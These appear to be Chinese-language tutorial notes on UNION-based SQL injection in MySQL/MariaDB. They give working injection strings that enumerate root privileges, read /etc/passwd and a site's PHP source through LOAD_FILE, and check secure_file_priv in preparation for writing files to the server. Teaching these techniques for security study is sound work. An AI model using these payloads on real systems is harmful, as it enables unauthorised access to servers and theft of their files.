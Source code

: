 
### 用户权限

**测试用户拥有的权限:**

```sql
SELECT super_priv FROM mysql.user
```
添加 `WHERE user="root"` 来查看我们是否拥有root权限

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
显示我们拥有的所有权限。

### 读取文件
需要拥有文件的读取权限
读取/etc/passwd:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
读取源码:
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```


### 写入文件

为了能够使用 MySQL 数据库将文件写入后端服务器，我们需要三件事：

1. 启用了 `FILE` 权限的用户
2. 未启用 MySQL 全局 `secure_file_priv` 变量
3. 对后端服务器上我们想要写入的位置的写入访问权限

**secure_file_priv**
[secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) 变量用于确定从何处读取/写入文件。空值允许我们从整个文件系统中读取文件。否则，如果设置了某个目录，我们只能从变量指定的文件夹中读取。另一方面，`NULL` 意味着我们无法从任何目录读/写。MariaDB 默认将此变量设置为 empty，如果用户具有 `FILE` 权限，则允许我们读/写任何文件。但是，`MySQL` 使用 `/var/lib/mysql-files` 作为默认文件夹。这意味着使用默认设置时无法通过 `MySQL` 注入读取文件。更糟糕的是，一些现代配置默认为 `NULL，`这意味着我们无法在系统内的任何位置读/写文件。

**查询secure_file_priv的值**
```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

但是，由于我们使用的是 `UNION` 注入，因此必须使用 `SELECT` 语句获取该值。这应该不是问题，因为所有变量和大多数配置都存储在 `INFORMATION_SCHEMA` 数据库中。`MySQL` 全局变量存储在一个名为 [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html) 的表中，根据文档，该表有两列 `variable_name` 和 `variable_value`。

我们必须从 `INFORMATION_SCHEMA` 数据库中的表中选择这两列。MySQL 配置中有数百个全局变量，我们不想检索所有变量。然后，我们将使用我们在上一节中了解的 `WHERE` 子句过滤结果以仅显示 `secure_file_priv` 变量。
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

